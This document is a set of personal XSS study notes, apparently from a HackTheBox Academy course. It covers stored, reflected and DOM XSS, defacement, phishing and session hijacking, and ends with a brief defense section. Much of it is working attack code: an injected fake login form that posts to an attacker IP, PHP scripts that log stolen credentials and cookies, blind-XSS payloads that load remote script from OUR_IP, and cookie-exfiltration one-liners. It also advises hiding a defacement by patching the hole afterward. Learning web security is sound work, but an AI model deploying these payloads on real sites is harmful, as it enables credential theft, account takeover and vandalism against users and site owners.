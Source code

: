 # xss
* cross site scripting
* browser based vulnerabilities
* inject javascript in poorly santized input
* stored persistent XSS
  * user input stored in backend to be displaye dot others
* Reflected XSS
  * non persistent, user input displayed on page after being process but without being stored
* DOM based XSS
  * non persistent, input directly shown in the rbwoser and completely process by client side without reaching the server

## Stored XSS
* if the xss payload is stored, the attack is persistent and can effect other users
* <script>alert(window.origin)</script> can tell you if xss is executed, and where it is executed
  * many browser use IFrames for input, so if webform is vulnerable it doesnt impace main site. Using the alert window.origin tells us the URL being executed on
* <script>print()</script>  also works
* remember to confirm that our code is in the webpage by using inspect element

## Non persistent XSS
* reflected XSS:
  * input reaches server, returned to us without sanitization
  * they are not persistent
  * how can this be used to target victims then?
  * sometimes inputs are stored in the query of the url
  * we can give them a url with the query containing our xss
  * confirm this with network view in the developer tools

* DOM xss
  * completely processed client side using JS
  * if input parameter in URL uses #, it is handled by the browser. No requests made to backend
  * when browser is refreshed, the data disappears
  * Source and Sink
    * Source is javascript object taking user input, any input 
    * Sink is function writing user input to DOM object. If sink not santiizing input, its vulnerable to XSS
      * `document.write()`
      * `DOM.innerHTML`
      * `DOM.outerHTML`
      * in jquery
        * `add()`
        * `after()`
        * `append()`
    * if a page uses these without sanitizing, it is vulnerable
    * these dont tend to allow <script> tags though
    * so we have to use a new method
    * <img src="" onerror=alert(window.origin)>
    * 

## XSS Discovery
* automated discovery
  * tools like nessus, burp pro, zap
  * passive scan: view client side code to find DOM vectors
  * active scan: send payloads via http to find persistent or reflective vectors
  * `xss strike` is open source and free for this purpose
* manual discovery
  * manual xxs discovery
  * for simple attacks, just testing randomly on enemy system is good enough
  * in more advanced situations, you need to develop code review skill

### XSS Payloads
* XSS can be injected inbto any HTML page, not just input fields. HTTP headers, cookies, user agents, etc, can be used. CSS Style attributes work sometimes too
* code review

### Defacement
* damaging website frontent using persistent XSS
* three html things to change the website look:
  * backgroudn color: document.body.style.background
  * background: document.body.background
  * page title: document.title
  * page text: DOM.innerHTML
* after doing our defacement, its best to also get rid of the vulnerability ourselves in order to make changing back harder
#### changing background
* <script>document.body.style.background = "#141d2b"</script>

#### changing page title
* <script>document.title = 'HackTheBox Academy'</script>

#### changing page text
* <script>document.getElementById("todo").innerHTML = "New Text"</script> will change  an element
* or with jquery
  * $("#todo").html('New Text');
* <script>document.getElementsByTagName('body')[0].innerHTML = "New Text"</script> will change the elemtn by tag name, in this case the hwole body
  * [0] means first body element
* instead of doing one thing at a time, we could also just use innerHTML to change entire webpage to our will
* also test our payload.. to make sure it works!!!
* <script>document.getElementsByTagName('body')[0].innerHTML = 'penis man was here'</script>

### Phishing
* Phishing utilize legitimate information to trick victims into sending information
* XSS phishing is done by injecting fake login forms which send login details to attacker server
* allows login on behalf of user

here is some such code

<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>

also, you can load remote code with:

<script src="http://OUR_IP/script.js"></script>

* this creates a form on the wesbite, with the action to send the information back to our ip
* in order to deploy this payload, we can do `document.write(payload)`
  * document.write('<h3>Please login to continue</h3><form action=http://10.10.15.14><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>')
* to remove other elements, use `document.getElementById(element id).remove()`
* to get rid of other things, use comments
* to set up a listener, we just use nc to listen on port 80
* probably not a good idea to put your own ip on the website, good way to get caught!!!
* if we just use nc though the webpage will return an unable to connect error
* we should use a php script that logs credentials and redirects to the original page

<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>

* simple php script receives request, extract username and password, write to file, then redirect using the header function
* 

### SEssion hijacking
* web apps use cookies to maintain connection and authentication
* if we hijack cookies, we can steal their login session

#### blind XSS vulnerabiltiies
* when the vulnerability is on a page we cannot access
* forms only accessible by admins or something
* contact forms, reviews, user details, tickets, https user agent headers
* say we submit a form to be reviewed by an admin. WE cant see how the admin's client handles the input, so what gives?
* to detect vulnerabilities, put our code in the request. This code will send a message to our server, and if we receive something, the webpage is vulnerable
  * how do we know which field is vulnerable?
  * what xss payload to use?
* using the remote code execution method, getting the code from a file on our system dynamically, can help us test different methods
* if we rename the script to whichever field we are testing against, then we know the field name if we get a request from that script


<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>

* good to encapsulate multiple payloads into one for redundancy
* we shoudl also consider the field type we are attacking
  * email fields usually require email formatted strings
  * passwords dont store in plaintext

### cookie grabbing
```
  document.location='http://OUR_IP/index.php?c='+document.cookie;
``````
  new Image().src='http://10.10.15.14/index.php?c='+document.cookie;
```
the first of these navigates to a cookie grabber page, the second displays an image (which captures our cookie by embedding our php source file)

this script will do the job
`<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>`

* separates cookies into a list so that they can be printed pretty
* when we steal the cookie, we go to storage and paste it in place of our own

## XSS Defense
* we should defend user IO on websites
* input sanitization is especially important
* DOMPurify can prevent javascript code from entering our ecosystem
* we should never use input directly within javascript code, css code, tag or attribute fields, or comments
* dont use vulnerable javascript functions
